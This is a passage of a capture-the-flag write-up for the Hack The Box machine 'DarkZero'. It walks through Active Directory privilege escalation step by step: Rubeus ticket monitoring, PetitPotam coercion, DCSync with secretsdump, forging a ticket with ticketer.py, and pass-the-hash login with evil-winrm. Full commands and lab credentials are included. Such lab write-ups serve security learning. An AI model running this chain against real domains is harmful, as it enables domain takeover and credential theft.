
We have found user.txt!
🛡️ PRIVILEGE ESCALATION¶
For privesc we will try to catch a ticket and use that to impersonate to login as Admin eventually.
To do that we will upload Rubeus.exe to the server so we can see and catch the tickets, as we then trigger the ticket we want to use.
Go back to meterpreter using exit and type upload <Path-to-your-Rubeus.exe>. I uploaded it while being in svc_sql/Desktop.
After you got it uploaded, you will run Rubeus to get the Encoded Tickets, using
Rubeus.exe monitor /interval:5 /nowrap
It will monitor every 5 seconds for new TGTs.

We have catched multiple TGTs like, DC01, svc_sql and even Administrator. We want to catch the TGT of DC01 but sadly enough it didnt pop up. We can trigger it by using a tool called PetitPotam.
We use it by sending
python3 /opt/tools/PetitPotam.py -d darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' DC02.darkzero.ext DC01.darkzero.htb -pipe all
for me it works more reliable then spamming xp_dirtree.
Now when we look back at Rubeus we see that a new Ticket has popped up!

Now we will do a couple of things, at first.
Copy the Base64EncodedTicket and nano a .b64 file and place the value inside of it. Next run base64 -d ticket.b64 > dc01.kirbi. We turn it into a .kirbi so we can use ticketConverter to turn it into a .ccache. Now finally we use ticketConverter.py dc01.kirbi dc01.ccache and it returns us the .ccache that we will use for our KRB5CCNAME.
Let's set our .ccache as our way to authenticate as export KRB5CCNAME=dc01.ccache. If you want to you can look inside of the .ccache to check if everything works with klist -c filename.ccache.
Now we have the .ccache set up, we will cacth the kerberos keys to get to the next step using.
secretsdump.py -k -no-pass -dc-ip <ip> -just-dc-user DC01$ @darkzero.htb
if you see issues with time use sudo ntpdate <target ip>.

We need the aes256 key to create a golden ticket. To perform a Golden Ticket attack in Active Directory, we need to generate a forged Kerberos Ticket Granting Ticket (TGT) that’s trusted by the Key Distribution Center (KDC). Here’s how I did it in my workflow, with an explanation of each piece:
krbtgt AES key: extracted using DCSync (secretsdump.py or mimikatz) after gaining high privileges on a DC. This key signs Kerberos tickets.
Domain SID: unique identifier for the Active Directory domain. Also grabbed via secretsdump.py or similar.
Domain FQDN: e.g., DARKZERO.HTB.
RID/User ID and username: the account you want to impersonate; for machine accounts, add a $ at the end (e.g., DC01$).
ticketer.py -aesKey 25e1e7b4219c9b414726983f0f50bbf28daa11dd4a24eed82c451c4d763c9941 \
-domain-sid S-1-5-21-1152179935-589108180-1989892463 \
-domain DARKZERO.HTB \
-user-id 1000 DC01$
So basically,
-
aesKeytells ticketer.py which key to use for forging and signing the ticket – this must be the actual krbtgt AES key from the domain. -
domain-sidis the domain's SID so the ticket matches the domain context. -
domainis the human-readable FQDN of the target AD domain. -
user-idis the RID (Relative Identifier) for the user or computer. -
user DC01$specifies the user account you are forging the ticket for. Here it’s a computer account.
Long story short, we use and run this to impersonate a user.
When you ran that command, you will recieve a different .ccache.

We will use that specific .ccache and set it as our export KRB5CCNAME=DC01$.ccache so we will try to run secretsdump.py again and dump Administrator hashes.
secretsdump.py -k -no-pass -dc-ip <ip> -just-dc-user Administrator @darkzero.htb

It worked! We now have the Administrator hash and can try to login as admin.
You can use many tools for this but I stayed basic and chose evil-winrm.
Run your command with -i for ip -u for username and -H for the 0x17 hash you found while dumping Administrator.
evil-winrm -i <ip> -u Administrator -H <NTLM_hash>

And after you logged in, as you can see we checked with whoami our privileges, and dove straight to Desktop to get our root.txt.
📎 Final thoughts¶
DarkZero is a fantastic test of advanced Windows exploitation. It pushed me to combine enumeration, privilege escalation, pass-the-hash, and persistence techniques. This challenge deepened my understanding of the Kerberos ticketing process, and the importance of monitoring and securing AD environments against these post-exploitation tactics.
📘 LESSONS LEARNED¶
-
Active Directory attacks often require chaining multiple techniques: lateral movement, Kerberos abuse, hash extraction.
-
Time synchronization is absolutely critical for Kerberos-based exploits.
-
Golden Ticket attacks demonstrate how dangerous it is if krbtgt keys are leaked.
-
Always enumerate thoroughly—unexpected clues (like a secondary domain) can change your attack chain.
-
Tools like BloodHound and winPEAS are invaluable for visibility.
📚 REFERENCES¶
PetitPotam: https://github.com/topotam/PetitPotam
Rubeus: https://github.com/GhostPack/Rubeus
Kerberos Golden Ticket Attack explanation: https://www.picussecurity.com/resource/blog/golden-ticket-attack-mitre-t1558.001